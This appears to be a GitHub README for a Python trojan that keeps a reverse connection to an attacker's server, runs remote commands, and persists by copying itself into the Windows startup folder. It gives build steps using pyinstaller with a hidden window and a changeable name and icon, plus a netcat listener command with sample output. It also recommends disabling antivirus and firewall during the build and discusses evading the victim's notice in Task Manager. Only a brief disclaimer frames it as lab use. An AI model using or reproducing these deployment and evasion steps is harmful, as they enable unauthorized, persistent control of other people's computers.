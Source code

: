 # Python Trojan

## Overview
This is a basic Trojan written in Python that establishes a persistent connection with a remote server, listens for commands, and executes them on the infected machine. It autoruns by copying itself to the Windows startup folder and continuously tries to reconnect if the connection is lost. The script uses threading to execute commands concurrently.

## Features
- Persistent connection attempts to the attacker's server.
- Remote command execution.
- Multi-threaded execution to handle commands asynchronously.

## Usage
1. Modify the IP (and, optionally, the port) of the code as needed.
   
2. Install the pyinstall library that will be used to generate the executable file:

   ```
   pip install pyinstall
   ```

4. Generate the executable:

   ```
   pyinstaller -F --clean -w trojan.py
   ```

Note: the file name can also be changed, as well as the icon. 

4. The attacker must leave a port listening on his machine to receive the connection:
   
   ```
   nc -lvp 443
   ```
   When connected, you will see something like:
   
   ```
   listening on [any] 443 ...
   10.0.2.4: inverse host lookup failed: Unknown host
   ```

Once the connection is received, the attacker will have persistent access to the victim's machine, thanks to the `autorun()` function, which ensures that the program is executed automatically whenever the system is started.


## Security Notice
Use this script only in controlled environments such as penetration testing labs, with explicit permission. Misuse of this tool for unauthorized access to systems is illegal and may result in severe consequences. <u>**The risk is yours**</u>.

## Observations
- The program has **low detectability** by antivirus software when first run. However, there is a possibility that the antivirus may detect suspicious activity during the creation of the executable. To minimize this risk, it is recommended to **disable the antivirus and firewall** while generating the executable. Additionally, over time, the antivirus may eventually recognize the executable as malicious.
- There is a risk that the victim may find the trojan in the **Task Manager**. If that happens, there’s nothing to do except attempt the connection again.
- Obviously, the victim must run the Trojan on **Windows**.

